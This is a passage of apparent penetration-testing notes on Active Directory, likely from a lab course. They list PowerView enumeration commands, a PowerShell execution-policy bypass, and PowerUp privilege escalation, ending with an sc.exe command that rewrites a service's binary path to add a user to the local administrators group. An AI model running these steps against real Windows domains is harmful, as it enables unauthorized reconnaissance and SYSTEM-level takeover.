 **Link**: [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/)

```bash
net user - Query local users present on the system
net user /domain - Query users present in a particular domain

POWERSHELL
Bypass powershell restriction to run powershell scripts using "powershell -ep bypass"
Import-Module <script.ps1> or . .\<script.ps1> to execute powershell script.

PowerView
Download Powerview which contains number of scripts to enumerate the domain e.g "Get-NetUser"
Get-NetUser - This can be ran on a compromised windows machine within the AD Environment
to get information about the user.

Get-NetUser | Select-Object givenname - To see information for only the variable givenname.
- givenname - Shows all users present in a domain.
Get-Domain -Verbose - Shows information about the domain
Get-DomainController- Gets information about the domain controller
Get-DomainSID -Verbose - Gets security identifier of the domains
Get-DomainSID -Domain labs.corp -Verbose - This gets the SID of the labs.corp domain.

Get-NetComputer -Verbose - List all computers in that domain
Get-NetGroup -Verbose - List all groups in the domain.
Get-NetGroup | Select-Object samaccountname - See all samaccountnames(groups) in that domain.
Get-NetGroupMember -Identity "Group name" -Verbose - To get all members in a particular domain group
Get-DomainTrust -Verbose  - Shows the trusted domains in a forest
Get-DomainTrust -Domain labs.corp -Verbose - Shows the trusted domains and forest of labs.corp
Find-LocalAdminAccess -Verbose - Finds a computer session where current user has local
admin access.

Invoke-ACLScanner -ResolveGUIDS -Verbose 
- Invoke-ACLScanner: Initiates an ACL scan. 
- ResolveGUIDS: Resolves GUIDs to readable names.
- Verbose: Displays detailed information during the execution.
```
## Local Privilege Escalation

```bash
**Powerup** can be used to escalate privileges locally within a windows environment.

When a **service** is created whose **executable path** contains ***spaces*** and isn’t enclosed within ***quotes***, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

```bash
Get-ModifiableService - To find misconfigured services a user or administrator can be 
running so as to exploit it and use it to gain higher level privilege.
Make use of the "Abusefunction" associated with the discovered service to exploit it.

Invoke-AllChecks -Verbose runs various security checks to identify potential 
vulnerabilities, misconfigurations, or weaknesses within the target system.

net localgroup "administrators" - Check list of users in the administrators group.
sc.exe qc "Service Name" -  Gives Information about this service.

Change binary Path of the service to a command that adds a local user to the administrator's
group with sc.exe config "Service Name" binpath="net localgroup administrators cyberwarfare\employee
 /add."
 
```